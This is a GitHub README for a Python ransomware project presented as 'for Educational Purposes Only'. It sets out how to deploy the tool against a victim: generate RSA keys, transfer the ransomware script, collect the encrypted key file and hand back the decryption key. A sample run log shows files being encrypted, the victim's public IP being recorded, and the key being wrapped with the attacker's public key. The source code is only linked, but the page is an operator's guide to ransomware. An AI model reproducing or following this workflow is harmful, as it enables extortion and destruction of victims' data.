 # Ransomware-in-Python

[![made-with-python](https://img.shields.io/badge/Made%20With-Python-success)](https://www.python.org/)

Ransomeware in Python (for Educational Purposes Only)

## How To Make This Work ?

![](https://raw.githubusercontent.com/whokilleddb/Ransomware-in-Python/main/Images/Ransomware.png)

* First Generate A **RSA Key Pair** Using The [Key Generation Script](https://github.com/whokilleddb/Ransomware-in-Python/blob/main/keyGen.py)
* Transfer the **Public Key (public.pem)** And The [Ransomware Script](https://github.com/whokilleddb/Ransomware-in-Python/blob/main/Ransomware.py)
* Transfer Over The **EMAIL_Me.txt** Stored Under The Desktop Directory Of The Current User To The Attacker
* Decrypt The **EMAIL_Me.txt** Using The **Private RSA Key (.private.pem)** Via The Same [Key Generation Script](https://github.com/whokilleddb/Ransomware-in-Python/blob/main/keyGen.py)
* A Text File Called **PUT_ME_ON_DESKTOP.txt** Is Generated 
* Transfer Over **PUT_ME_ON_DESKTOP.txt** To The Victim And Place It In The Desktop Folder
* BOOM ! The Files Are Decrypted Back !

### Sample Output On A Bodhi Linux :

```
bodhi@bodhi-32 ~/Ransomware> python3 Ransomware.py 
[+] Victim Is Running A Linux Environment
[+] System Root Found At : /home/bodhi
[+] Local Root Found At : /home/bodhi/Ransomware
[+] Public IP Of Victim : 202.142.107.55
[+] Generated Fernet Key As : b'UEoMPNynUBdfDAePrdXa7oYOM30Fd8dtD6X53EO0rIo='
[+] Created Crypter As : <cryptography.fernet.Fernet object at 0xb682958c>
[+] Crypter Object In Use : <cryptography.fernet.Fernet object at 0xb682958c>
/home/bodhi/Ransomware/test.txt is Being Encrypted 
/home/bodhi/Ransomware/test.txt Has Been Encrypted 
[+] Crypter Object In Use : <cryptography.fernet.Fernet object at 0xb682958c>
/home/bodhi/Ransomware/test.pdf is Being Encrypted 
/home/bodhi/Ransomware/test.pdf Has Been Encrypted 
[+] Wrote Fernet Key Into : fernet_key.txt
[+] Read Fernet Key From fernet_key.txt
[+] Read Public Key From public.pem As <_RSAobj @0xb701dd8c n(2048),e>
[+] Encrypted fernet_key.txt With Attacker's Public RSA Key
[+] Creted EMAIL_ME.txt at /home/bodhi/Desktop 
[+] Nullified Key as b'PJ(\x15\x05\xf2\x83\xfcC\x99\x98J\x1b\xf1t\xf5\xac\xa2\xd3(\xb7\xdbO\xe4\xc4\x9d\xf2\xa9\xf1\xbb\xcb\x17\xe5\xf4\'.H\x93\xae\xedsC\xb8\xd9\x94\x1a\xb8z\xfb\xdbb\xad\x9b\xfd\xf3|\xcar\xc3r\xf5-\xd8\xdd\xc4C[Vj\xc5f\xd4\x93\x85E"\x19\xf2\x9b\x89\xf7\xe7\x8c\xb6\xd8\xfack\x7fX\x81)L9\\<b\x1a\x0c\xce\x1e\xc3\x94\xfd\xd2\x1f\xc5\xee\x06\xd0\xdd\r\x83\x9e\xe071\xfa\x89\x83\x07\xf4\xc3VN\xdfU\x1e\xd0\n\xad["\xef\xd2aR\xe3\xad\x19\xa0\xd3"\x1f \\4\x0eCbs\xc1\xd9~\xb5\xca\x7f\xd7\xa6\x99~\x9e\xda\x17\xc4\r\xeb\xddT\xce\xb7R\xe2S\xf6\xa0\x18h\r\xf7\xde)\x83\xb6>\xe2\xee,\xe9\xf2\xb0\xb4\xedj\x19\xd1\x88\xf0\xe5j\xca\xf5\xcaa&\x0b\x87\xb08\xdc\xb7A\x1c\x9d2~\x11\xdc\x9f\x16M\xfd\xc18\x81f\xe4\xb0\x80\xbbG\xd8\xd3M\x04j\xf7d\'\xf3^\x05| \xdb\xf01\x92\xe6U\x86C\x8b,S\xc4'
[+] Nullified Crypter Object as None
 > Target Encrypted
 > Attack Completed
[-] Exception Rose As : 
[Errno 2] No such file or directory: '/home/bodhi/Desktop/PUT_ME_ON_DESKTOP.txt'

** (epiphany:4564): WARNING **: 01:00:39.767: webkit_web_context_set_web_process_count_limit is deprecated and does nothing. Limiting the number of web processes is no longer possible for security reasons

** (epiphany:4564): CRITICAL **: 01:00:39.769: void webkit_web_context_register_uri_scheme(WebKitWebContext*, const char*, WebKitURISchemeRequestCallback, gpointer, GDestroyNotify): assertion 'g_ascii_strcasecmp(scheme, "ftp") != 0' failed
Error sending IPC message: Broken pipe
[-] Exception Rose As : 
[Errno 2] No such file or directory: '/home/bodhi/Desktop/PUT_ME_ON_DESKTOP.txt'
[-] Exception Rose As : 
[Errno 2] No such file or directory: '/home/bodhi/Desktop/PUT_ME_ON_DESKTOP.txt'
[+] Read Key From /home/bodhi/Desktop/PUT_ME_ON_DESKTOP.txt As UEoMPNynUBdfDAePrdXa7oYOM30Fd8dtD6X53EO0rIo=
[+] New Cryptor Object Created As : <cryptography.fernet.Fernet object at 0xb71269ac>
[+] Crypter Object In Use : <cryptography.fernet.Fernet object at 0xb71269ac>
/home/bodhi/Ransomware/test.txt is Being Decrypted 
/home/bodhi/Ransomware/test.txt Has Been Decrypted 
[+] Crypter Object In Use : <cryptography.fernet.Fernet object at 0xb71269ac>
/home/bodhi/Ransomware/test.pdf is Being Decrypted 
/home/bodhi/Ransomware/test.pdf Has Been Decrypted 
```

